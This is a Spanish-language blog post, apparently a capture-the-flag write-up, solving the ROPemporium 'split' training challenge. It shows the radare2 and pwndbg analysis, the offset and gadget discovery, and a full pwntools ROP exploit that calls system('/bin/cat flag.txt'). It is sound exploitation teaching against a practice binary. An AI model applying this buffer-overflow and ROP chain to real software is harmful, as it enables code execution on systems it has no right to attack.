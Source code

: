 ```yaml
---
layout: post
title: ROPemporium split - Usando ROP para escribir en RDI
author: c4rta
date: 2023-01-15
categories: [Explotacion binaria]
tags: [ROP]
image: 
  path: /assets/img/spilt/waifu.gif
---
```

{:.lead}


## A tomar en cuenta

- La dirección máxima en 64 bits es ```0x00007FFFFFFFFFFF``` y el RIP no puede sobrescribir una dirección mayor que este valor. 
- Los parámetros de función se pasan a los registros. Estos registros son RDI, RSI, RDX, RSX, R8, R9, respectivamente. Si el número de parámetros es superior a 6, se guardan en el stack

## Analizando el binario

Primeramente veremos con que protecciones cuenta el binario, esto con ```checksec```:

```
checksec --file=split                                             ─╯
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   70 Symbols	  No	0		3		split
```
Como se puede ver tiene ```NX``` asi que no podemos ejecutar codigo en el stack, asi que para resolverlo vamos a usar ROP (Programacion Orientada el Retorno).

Ahora metere el binario a radare2 para ver lo que esta haciendo en el main:

![](/assets/img/spilt/radare1.png)

Aqui lo unico interesante es que se esta llamando a la funcion ```pwnme``` en la direccion ```0x004006d2```. Y lo demas simplemente es el mensajito de bienvenida.

En la funcion ```pwnme``` tenemos esto:

![](/assets/img/spilt/radare2.png)

- En color rojo se esta declarando un puntero llamado ```buf``` que esta 0x20 por debajo del ```RBP```
- En color amarillo se esta creando un buffer de ```0x20``` (32 bytes) el cual se almacena en ```buf```
- En color verde es cuando el programa recibe nuestro input el cual lee ```0x60``` bytes en ```buf```.

Esto no es todo, siempre hay que mostrar todas las funciones en un programa, en radare lo hacemos con ```alf```. Veamos:

![](/assets/img/spilt/radare3.png)

Vemos como existe una funcion llamada ```usefulFunction``` la cual nunca se llama en el programa, y si vemos codigo tenemos algo como esto:

![](/assets/img/spilt/radare4.png)

Se esta haciendo uso de la funcion ```system``` para llamar a ```/bin/ls```, esto no es lo que queremos, nosotros queremos que llame a ```/bin/cat flag.txt```, y la pregunta es... ¿Como yo se que en el binario se esta llamando a ```/bin/cat flag.txt```?, pues facil, simplemente podemos mostrar los strings con ```rabin2 -z split```:

![](/assets/img/spilt/radare5.png)

Podemos ver que en la seccion ```.data``` esta ```/bin/cat flag.txt```, asi que tenemos que sustituirlo por ```/bin/ls```


## Crafteando el exploit

### Sacando el offset del RIP

Con ```pwndbg``` voy a ocasionar que el buffer pete pasandole la cadena generada por ```cyclic 100```, y deberiamos ver algo como esto:

```
*RBP  0x6161616161616165 ('eaaaaaaa')
*RSP  0x7fffffffda78 ◂— 0x6161616161616166 ('faaaaaaa')
*RIP  0x400741 (pwnme+89) ◂— ret 
───────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]────────────────────────────────────────────────────────────
 ► 0x400741 <pwnme+89>    ret    <0x6161616161616166>
```

Vemos que no sobrescribimos RIP en absoluto. Esto se debe a que sobrescribimos RIP con una dirección no válida mayor que ```0x00007fffffffffff```. Esto hace que el sistema operativo genere una excepción, y por lo tanto, no actualice el valor de RIP en absoluto. 

Asi que para sacar su offset podemos usar el registro ```RSP```, para sacar el offset de ```RSP``` ponemos ```cyclic -l faaaaaaa``` y esto nos da un offset de ```40```, este offset es el mismo que tiene el ```saved-rip```, y tiene el mismo ya que el ```saved rip``` tiene el valor guardado del puntero de instruccion, es decir, adonde regresar, pero este valor se guarda en el stack en una direccion en particular, y esa direccion es ```0x7fffffffda78```, esto lo podemos saber si mostramos el frame y vemos esta parte:

```
 Saved registers:
  rip at 0x7fffffffda78
```
Y si mostramos unos cuantos byes del stack, con el comando ```x/30wx $rsp``` vemos algo como esto:

```
0x7fffffffda78:	0x61616166	0x61616161	0x61616167	0x61616161
0x7fffffffda88:	0x61616168	0x61616161	0x61616169	0x61616161
0x7fffffffda98:	0x6161616a	0x61616161	0x6161616b	0x61616161
0x7fffffffdaa8:	0x6161616c	0x61616161	0xffffdb98	0x00007fff
0x7fffffffdab8:	0x35f3056c	0x394c8b3a	0x00000000	0x00000000
0x7fffffffdac8:	0xffffdba8	0x00007fff	0x00000000	0x00000000
0x7fffffffdad8:	0xf7ffd000	0x00007fff	0x80d1056c	0xc6b374c5
0x7fffffffdae8:	0xb179056c	0xc6b36486
```
En donde en la direccion ```0x7fffffffda78``` tenemos los valores ```0x61616166	0x61616161```, los cuales son los mismos que tiene el ```RSP```, asi que podemos decir que el ```saved rip``` tiene el valor ```0x6161616161616166``` y el ```RSP``` el valor ```faaaaaaa``` (que es lo mismo que ```0x6161616161616166``` pero en decimal), ademas podemos tambien hacer un ```cyclic -l 0x6161616161616166``` y nos dara un offset de 40 al igual que el ```RSP```. Y como ultimo, en este caso le estamos indicando al programa que regrese a ```0x6161616161616166```, lo cual es incorrecto. Y por toda esta explicacion es la razon por la cual el ```saved rip``` y el ```RSP``` tienen el mismo offset (nunca habia explicado esto y es bueno saberlo).

### Direccion de system

Esto es muy facil, para esto, usaremos la direccion de system que se encuentra en la funcion ```usefulFunction```, como se puede ver aca:

![](/assets/img/spilt/radare6.png)

La direccion es: ```0x000000000040074b```

### Direccion de /bin/cat flag.txt

Esto lo hacemos con ```rabin2 -z split``` y copiamos la direccion, la cual es: ```0x00601060```

### Direccion de pop rdi

Como mencione hace un rato, usamos esto para meter en el registro rdi: ```/bin/cat flag.txt```. La direccion de pop rdi la podemos sacar con herramientas como ropper, la cual nos permiten ver todos los gadgets del programa. Usamos el comando ```ropper -f split```.

Vemos como nos encontro el gadget:

```0x00000000004007c3: pop rdi; ret; ``` y su direccion es ```0x00000000004007c3```

## Ejecutando el exploit

Al final nuestro exploit quedo asi:

```py
from pwn import *

p = process("./split")

padding = b"A" * 40
system = 0x000000000040074b
bin_cat = 0x00601060
pop_rdi = 0x00000000004007c3

payload = padding
payload += p64(pop_rdi)
payload += p64(bin_cat)
payload += p64(system)

p.sendline(payload)
print(p.recvall().decode())
```

Y lo que hicimos fue:

- Cambiar el return adress a la dirección de pop rdi; ret.
- Después del return adress, pusimos la dirección de /bin/cat flag.txt
- Después de la dirección de /bin/cat flag.txt, pusimos la dirección de system@plt

De esta manera después de la última instrucción de ```pwnme``` se ejecute (osea el ```ret```), el ```RIP``` saltara a la dirección de ```pop rdi;ret```, simultáneamente el ```RSP``` apuntará ahora a la dirección de ```/bin/cat flag.txt```. Luego se pondrá en ```rdi``` la dirección de ```/bin/cat flag.txt``` y el ```ret``` ejecutará la funcion```system``` que tiene como argumento ```/bin/cat flag.txt``` :point_up: 🤓  

Y al ejecutarlo nos da la flag:

![](/assets/img/spilt/exploit.png)

Eso ha sido todo, gracias por leer ❤

![](/assets/img/spilt/waifu.gif)
